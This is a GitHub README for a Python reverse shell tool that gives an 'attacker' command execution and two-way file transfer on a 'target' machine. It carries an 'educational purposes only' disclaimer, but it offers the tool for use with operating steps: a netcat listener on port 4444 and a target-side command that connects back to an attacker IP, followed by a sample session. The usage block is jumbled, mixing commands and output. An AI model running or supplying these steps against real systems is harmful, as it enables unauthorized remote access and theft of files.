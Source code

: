 # Reverse Shell Tool

This repository contains reverse shell tool written in Python. This tool is for educational purposes only and should be used in a controlled, authorized environment.

## Features

- Execute commands on the target machine.
- Change directory on the target machine.
- Upload files from the attacker's machine to the target machine.
- Download files from the target machine to the attacker's machine.

## Prerequisites

- Python installed on both the attacker's and target's machines.
- Network access between the attacker's and target's machines.
- Necessary ports open and not blocked by firewalls.

## Usage
git clone https://github.com/Guruh-dev/Reverse-Shell.git

cd Reverse-Shell

### Set Up the Listener

On the attacker's machine, set up a listener to receive the reverse shell connection. You can use `netcat` (nc) for this purpose.

```sh
python3 reverse_shell.py
python3 combined_shell.py server --port 4444
nc -lvp <target_port>
whoami
user
upload example.txt
download example.txt
cd /tmp
exit

## Example Interaction
1. Attacker's Machine:

Set up the listener:
nc -lvp 4444
2. Target Machine:

Run the script:
python3 reverse_shell.py 192.168.1.100 4444

3. Attacker's Machine:

Send a command:
whoami

Receive the output:
user

